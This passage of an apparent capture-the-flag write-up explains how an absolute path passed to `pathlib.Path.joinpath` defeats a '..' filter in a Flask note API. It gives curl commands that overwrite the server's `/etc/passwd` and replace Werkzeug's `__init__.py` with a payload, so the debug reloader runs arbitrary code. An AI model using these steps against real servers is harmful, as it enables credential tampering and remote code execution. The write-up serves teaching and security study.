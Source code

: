 If we control an argument in a call to `pathlib.Path.joinpath` we can make the function
returns an arbitrary path, even when ".." is filtered:
```sh
>>> Path("/app/notes").joinpath("/etc/passwd")
PosixPath('/etc/passwd')
>>> Path("/app/notes", "/etc/passwd")
PosixPath('/etc/passwd')
```

We have an arbitrary file write.
```sh
$ curl http://0:5000/api/notes/3c12f410-cdb3-4422-bf9c-b9f9f79ab7e7 -F /etc/passwd=@new_passwd
```
This will overwrite the server's `/etc/passwd` with our local file `new_passwd`.

The Flask server has been started in debug mode, but unfortunately the source code is owned by root and we can't overwrite it to execute arbitrary Python code.  
Flask hot reloading is backed by Werkzeug. Werkzeug watches for all source code files of loaded modules and reload the web server if any of them were updated. (See https://github.com/pallets/werkzeug/blob/09ddd52f97a5dc079fb666323638c183379b1c90/src/werkzeug/_reloader.py#L43)

So we can overwrite the local Python repository, owned by our user to execute arbitrary Python code:
```sh
$ curl http://0:5000/api/session
"3c12f410-cdb3-4422-bf9c-b9f9f79ab7e7"
$ curl http://0:5000/api/notes/3c12f410-cdb3-4422-bf9c-b9f9f79ab7e7 -F /home/user/.local/lib/python3.12/site-packages/werkzeug/__init__.py=@pld.py
```

It also works with `os.path.join` and even `std::path::Path::join` in Rust.
